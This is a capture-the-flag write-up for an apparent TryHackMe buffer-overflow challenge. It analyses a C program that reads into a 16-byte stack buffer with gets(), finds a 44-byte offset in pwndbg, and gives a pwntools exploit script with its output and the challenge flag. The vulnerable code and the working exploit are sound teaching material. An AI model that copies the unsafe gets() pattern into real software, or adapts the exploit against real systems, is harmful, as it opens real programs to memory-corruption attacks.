

# TryOverFlowMe1

## Source Code Analysis

- Source Code
    
    ```bash
    int main(){
        setup();
        banner();
        int admin = 0;
        char buf[0x10];
    
        puts("PLease go ahead and leave a comment :");
        gets(buf);
    
        if (admin){
            const char* filename = "flag.txt";
            FILE* file = fopen(filename, "r");
            char ch;
            while ((ch = fgetc(file)) != EOF) {
                putchar(ch);
        }
        fclose(file);
        }
    
        else{
            puts("Bye bye\n");
            exit(1);
        }
    }
    ```
    

We can see there is a 16-byte buffer, and it is passed to the dangerous `gets` function

If we read the manual of gets, we will see the following:

```bash
DESCRIPTION
       Never use this function.

       gets()  reads  a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces
       with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

That means we can write an arbitrary amount of characters, overwriting the elements on the stack

## ELF Analysis

Using `file`, we know that it is a 64-bit executable.

```bash
file overflowme1
overflowme1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=1a288a35fb31d039ef879cd0fdbb05c3d0d70235, not stripped
```

We can then try to see how the program will interact with us when we enter a normal input.

```bash
                  ___           ___
      ___        /__/\         /__/\
     /  /\       \  \:\       |  |::\
    /  /:/        \__\:\      |  |:|:\
   /  /:/     ___ /  /::\   __|__|:|\:\
  /  /::\    /__/\  /:/\:\ /__/::::| \:\
 /__/:/\:\   \  \:\/:/__\/ \  \:\~~\__\/
 \__\/  \:\   \  \::/       \  \:\
      \  \:\   \  \:\        \  \:\
       \__\/    \  \:\        \  \:\
                 \__\/         \__\/

Please go ahead and leave a comment :
hi
Bye bye
```

It will return ‘Bye bye’, as we are not admin (`admin` variable = 0)

To know how many characters we need to overwrite, we can use `gdb pwndbg` for more analysis

We can first use `disass main` to disassemble the main function

- `main()`
    
    ```bash
    pwndbg> disass main
    Dump of assembler code for function main:
       0x00000000004008da <+0>:     push   rbp
       0x00000000004008db <+1>:     mov    rbp,rsp
       0x00000000004008de <+4>:     sub    rsp,0x30
       0x00000000004008e2 <+8>:     mov    eax,0x0
       0x00000000004008e7 <+13>:    call   0x4007a2 <setup>
       0x00000000004008ec <+18>:    mov    eax,0x0
       0x00000000004008f1 <+23>:    call   0x4007e5 <banner>
       0x00000000004008f6 <+28>:    mov    DWORD PTR [rbp-0x4],0x0
       0x00000000004008fd <+35>:    lea    rdi,[rip+0x33c]        # 0x400c40
       0x0000000000400904 <+42>:    call   0x400640 <puts@plt>
       0x0000000000400909 <+47>:    lea    rax,[rbp-0x30]
       0x000000000040090d <+51>:    mov    rdi,rax
       0x0000000000400910 <+54>:    mov    eax,0x0
       0x0000000000400915 <+59>:    call   0x400680 <gets@plt>
       0x000000000040091a <+64>:    cmp    DWORD PTR [rbp-0x4],0x0
       0x000000000040091e <+68>:    je     0x400977 <main+157>
       0x0000000000400920 <+70>:    lea    rax,[rip+0x33f]        # 0x400c66
       0x0000000000400927 <+77>:    mov    QWORD PTR [rbp-0x10],rax
       0x000000000040092b <+81>:    mov    rax,QWORD PTR [rbp-0x10]
       0x000000000040092f <+85>:    lea    rsi,[rip+0x339]        # 0x400c6f
       0x0000000000400936 <+92>:    mov    rdi,rax
       0x0000000000400939 <+95>:    call   0x4006a0 <fopen@plt>
       0x000000000040093e <+100>:   mov    QWORD PTR [rbp-0x18],rax
       0x0000000000400942 <+104>:   jmp    0x40094f <main+117>
       0x0000000000400944 <+106>:   movsx  eax,BYTE PTR [rbp-0x19]
       0x0000000000400948 <+110>:   mov    edi,eax
       0x000000000040094a <+112>:   call   0x400630 <putchar@plt>
       0x000000000040094f <+117>:   mov    rax,QWORD PTR [rbp-0x18]
       0x0000000000400953 <+121>:   mov    rdi,rax
       0x0000000000400956 <+124>:   call   0x400670 <fgetc@plt>
       0x000000000040095b <+129>:   mov    BYTE PTR [rbp-0x19],al
       0x000000000040095e <+132>:   cmp    BYTE PTR [rbp-0x19],0xff
       0x0000000000400962 <+136>:   jne    0x400944 <main+106>
       0x0000000000400964 <+138>:   mov    rax,QWORD PTR [rbp-0x18]
       0x0000000000400968 <+142>:   mov    rdi,rax
       0x000000000040096b <+145>:   call   0x400650 <fclose@plt>
       0x0000000000400970 <+150>:   mov    eax,0x0
       0x0000000000400975 <+155>:   jmp    0x40098d <main+179>
       0x0000000000400977 <+157>:   lea    rdi,[rip+0x2f3]        # 0x400c71
       0x000000000040097e <+164>:   call   0x400640 <puts@plt>
       0x0000000000400983 <+169>:   mov    edi,0x1
       0x0000000000400988 <+174>:   call   0x4006b0 <exit@plt>
       0x000000000040098d <+179>:   leave
       0x000000000040098e <+180>:   ret
    End of assembler dump.
    pwndbg> b *main+64
    Breakpoint 1 at 0x40091a
    ```
    

We can see that after the `gets()` function, there is a comparison

```bash
0x000000000040091a <+64>:    cmp    DWORD PTR [rbp-0x4],0x0
0x000000000040091e <+68>:    je     0x400977 <main+157>
```

The above line checks the value of `rbp-0x4` and jumps to `<main+157>` if it is 0.

Notice that the `cmp` operation will set the Zero Flag if the two inputs are equal.

We can test by setting a breakpoint at the comparison, and then running the program with a ‘test’

```bash
pwndbg> b *main+64
Breakpoint 1 at 0x40091a
pwndbg> r
Please go ahead and leave a comment :
test
```

GDB should hit the breakpoint, showing the registers and the following instructions



We can see that the Zero Flag (ZF) is set and the `je` (Jump if Equal) operation is ticked, indicating we are not an admin, and will jump to the ‘Bye bye’ message and exit the program.

## Finding Offset

To know how many characters we need, we can use `cyclic` to generate a structured input for us to test

```bash
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

We can then pass it as the input, as see how the result will look like when hitting the breakpoint


We can see the following:

1. `0x6161616c` is comparing with `0x0`, which the ZF is not set
2. The program will try to read the `flag.txt` in later instructions

Using `cyclic -l` to lookup, we can find the offset.

```bash
pwndbg> cyclic -l 0x6161616c
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

So now we know we need 44 characters to reach the `admin` variable.

## Local Testing

To test whether we can overwrite the variable, we can try to create a local `flag.txt` and see if we can get the flag using this large string

```bash
$ echo 'flag{test}' > flag.txt

$ ./overflowme1
                  ___           ___
      ___        /__/\         /__/\
     /  /\       \  \:\       |  |::\
    /  /:/        \__\:\      |  |:|:\
   /  /:/     ___ /  /::\   __|__|:|\:\
  /  /::\    /__/\  /:/\:\ /__/::::| \:\
 /__/:/\:\   \  \:\/:/__\/ \  \:\~~\__\/
 \__\/  \:\   \  \::/       \  \:\
      \  \:\   \  \:\        \  \:\
       \__\/    \  \:\        \  \:\
                 \__\/         \__\/

Please go ahead and leave a comment :
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
flag{test}
Segmentation fault
```

We get it! However, we also overwrite the return address in the process, which leads to a Segmentation Fault

## Exploitation

Because we now know the offset, we can now exploit it without the error.

 I wrote a script to send the exploit payload.

- Exploit script
    
    ```python
    from pwn import *
    
    def start(argv=[], *a, **kwargs):
        #If the argument is GDB
        if args.GDB:
        	# Run GDB with other arguments and run GDB according the gdbscript
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kwargs)
        # If the argument is REMOTE
        elif args.REMOTE:
        	# Connect to the Server by providing the server and the port
            return remote(sys.argv[1], sys.argv[2], *a, **kwargs) #Remote server and port
        else:
        	# Run the local executable
            return process([exe] + argv, *a, **kwargs)
    
    # Edit this if needed
    gdbscript='''
    continue
    '''
    
    # Path of the executable
    exe = './overflowme1'
    # Display detailed result for debugging
    context.log_level='debug'
    # Set the binary file to be the executable. set checksec to False if you want a clearer output.
    elf=context.binary= ELF(exe, checksec=True)
    
    io=start()
    
    # Padding found using GDB 
    padding=44
    
    # Set the payload. After padding 44 characters, send '1' to overwrite the admin variable 
    payload = flat({44:b'1'})
    # Send the padload after the message
    io.sendlineafter(b'Please go ahead and leave a comment :',payload)
    # Interact with the session
    io.interactive()
    ```
    

By running the script, we can overwrite the admin variable and obtain the flag

- Result
    
    ```bash
    $ python exploit.py REMOTE <Server IP> <Port>
    [*] '<ELF path>'
        Arch:       amd64-64-little
        RELRO:      Partial RELRO
        Stack:      No canary found
        NX:         NX enabled
        PIE:        No PIE (0x400000)
        Stripped:   No
    [+] Opening connection to <Server IP> on port <Port>: Done
    [DEBUG] Received 0x17a bytes:
        00000000  1b 5b 30 3b  33 34 6d 20  20 20 20 20  20 20 20 20  │·[0;│34m │    │    │
        00000010  20 20 20 20  20 20 20 20  20 5f 5f 5f  20 20 20 20  │    │    │ ___│    │
        00000020  20 20 20 20  20 20 20 5f  5f 5f 20 20  20 20 20 20  │    │   _│__  │    │
        00000030  20 0a 20 20  20 20 20 20  5f 5f 5f 20  20 20 20 20  │ ·  │    │___ │    │
        00000040  20 20 20 2f  5f 5f 2f 5c  20 20 20 20  20 20 20 20  │   /│__/\│    │    │
        00000050  20 2f 5f 5f  2f 5c 20 20  20 20 0a 20  20 20 20 20  │ /__│/\  │  · │    │
        00000060  2f 20 20 2f  5c 20 20 20  20 20 20 20  5c 20 20 5c  │/  /│\   │    │\  \│
        00000070  3a 5c 20 20  20 20 20 20  20 7c 20 20  7c 3a 3a 5c  │:\  │    │ |  │|::\│
        00000080  20 20 20 0a  20 20 20 20  2f 20 20 2f  3a 2f 20 20  │   ·│    │/  /│:/  │
        00000090  20 20 20 20  20 20 5c 5f  5f 5c 3a 5c  20 20 20 20  │    │  \_│_\:\│    │
        000000a0  20 20 7c 20  20 7c 3a 7c  3a 5c 20 20  0a 20 20 20  │  | │ |:|│:\  │·   │
        000000b0  2f 20 20 2f  3a 2f 20 20  20 20 20 5f  5f 5f 20 2f  │/  /│:/  │   _│__ /│
        000000c0  20 20 2f 3a  3a 5c 20 20  20 5f 5f 7c  5f 5f 7c 3a  │  /:│:\  │ __|│__|:│
        000000d0  7c 5c 3a 5c  20 0a 20 20  2f 20 20 2f  3a 3a 5c 20  │|\:\│ ·  │/  /│::\ │
        000000e0  20 20 20 2f  5f 5f 2f 5c  20 20 2f 3a  2f 5c 3a 5c  │   /│__/\│  /:│/\:\│
        000000f0  20 2f 5f 5f  2f 3a 3a 3a  3a 7c 20 5c  3a 5c 0a 20  │ /__│/:::│:| \│:\· │
        00000100  2f 5f 5f 2f  3a 2f 5c 3a  5c 20 20 20  5c 20 20 5c  │/__/│:/\:│\   │\  \│
        00000110  3a 5c 2f 3a  2f 5f 5f 5c  2f 20 5c 20  20 5c 3a 5c  │:\/:│/__\│/ \ │ \:\│
        00000120  7e 7e 5c 5f  5f 5c 2f 0a  20 5c 5f 5f  5c 2f 20 20  │~~\_│_\/·│ \__│\/  │
        00000130  5c 3a 5c 20  20 20 5c 20  20 5c 3a 3a  2f 20 20 20  │\:\ │  \ │ \::│/   │
        00000140  20 20 20 20  5c 20 20 5c  3a 5c 20 20  20 20 20 20  │    │\  \│:\  │    │
        00000150  0a 20 20 20  20 20 20 5c  20 20 5c 3a  5c 20 20 20  │·   │   \│  \:│\   │
        00000160  5c 20 20 5c  3a 5c 20 20  20 20 20 20  20 20 5c 20  │\  \│:\  │    │  \ │
        00000170  20 5c 3a 5c  20 20 20 20  20 0a                     │ \:\│    │ ·│
        0000017a
    [DEBUG] Received 0x7a bytes:
        00000000  20 20 20 20  20 20 20 5c  5f 5f 5c 2f  20 20 20 20  │    │   \│__\/│    │
        00000010  5c 20 20 5c  3a 5c 20 20  20 20 20 20  20 20 5c 20  │\  \│:\  │    │  \ │
        00000020  20 5c 3a 5c  20 20 20 20  0a 20 20 20  20 20 20 20  │ \:\│    │·   │    │
        00000030  20 20 20 20  20 20 20 20  20 20 5c 5f  5f 5c 2f 20  │    │    │  \_│_\/ │
        00000040  20 20 20 20  20 20 20 20  5c 5f 5f 5c  2f 20 0a 0a  │    │    │\__\│/ ··│
        00000050  1b 5b 30 6d  50 6c 65 61  73 65 20 67  6f 20 61 68  │·[0m│Plea│se g│o ah│
        00000060  65 61 64 20  61 6e 64 20  6c 65 61 76  65 20 61 20  │ead │and │leav│e a │
        00000070  63 6f 6d 6d  65 6e 74 20  3a 0a                     │comm│ent │:·│
        0000007a
    [DEBUG] Sent 0x2e bytes:
        b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa1\n'
    [*] Switching to interactive mode
    
    [DEBUG] Received 0x28 bytes:
        b'THM{Oooooooooooooovvvvverrrflloowwwwww}\n'
    THM{Oooooooooooooovvvvverrrflloowwwwww}
    [*] Got EOF while reading in interactive
    $
    [*] Interrupted
    [*] Closed connection to <Server IP> port <Port>
    ```
    

Flag: `THM{Oooooooooooooovvvvverrrflloowwwwww}`
